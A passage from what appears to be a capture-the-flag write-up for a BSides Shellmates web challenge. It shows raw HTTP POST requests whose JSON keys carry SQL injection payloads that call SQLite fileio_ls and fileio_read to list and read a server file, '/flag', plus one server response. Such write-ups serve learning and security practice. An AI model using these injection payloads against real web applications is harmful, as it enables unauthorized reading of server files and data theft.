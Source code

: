 Now, we need the secret. To do that, we need to check the environement variables.

Note : the flag is in `flag` :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 60
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://jokes-hub-1.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://jokes-hub-1.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"name from fileio_ls('/flag') LIMIT 200 OFFSET 0;--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 09:25:30 GMT
content-type: application/json
content-length: 19
connection: close

{"result":"/flag"}
```

But, unfortunatly, we can't read it directly :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 64
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://jokes-hub-1.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://jokes-hub-1.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"CAST(fileio_read('/flag') AS TEXT ENCODING 'utf-8');--":100}
```
